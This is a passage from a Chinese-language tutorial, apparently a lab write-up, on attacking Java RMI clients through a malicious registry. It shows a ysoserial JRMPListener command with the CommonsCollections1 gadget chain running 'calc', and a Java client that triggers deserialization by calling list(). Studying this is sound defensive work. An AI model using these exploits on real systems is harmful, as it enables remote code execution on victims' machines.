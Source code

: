 ```java
}

```

## 攻击客户端

### 注册中心攻击客户端

此方法可以攻击客户端和服务端

对于注册中心来说，我们还是从这几个方法触发：

- bind
- unbind
- rebind
- list
- lookup

### ysoserial cc1攻击

除了unbind和rebind都会返回数据给客户端，返回的数据是序列化形式，那么到了客户端就会进行反序列化，如果我们能控制注册中心的返回数据，那么就能实现对客户端的攻击，这里使用ysoserial的JRMPListener，命令如下

```bash
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener 12345  CommonsCollections1 'calc'
```

然后使用客户端去访问，其实这里展示的效果就是使用了客户端访问了带有恶意代码的注册中心。

```
package rmi_injection_labs1.client;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
public class ClientAttackByCC1 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.list();
    }
}
```

![image-20241125194611814](./main.assets/rmi12.png)
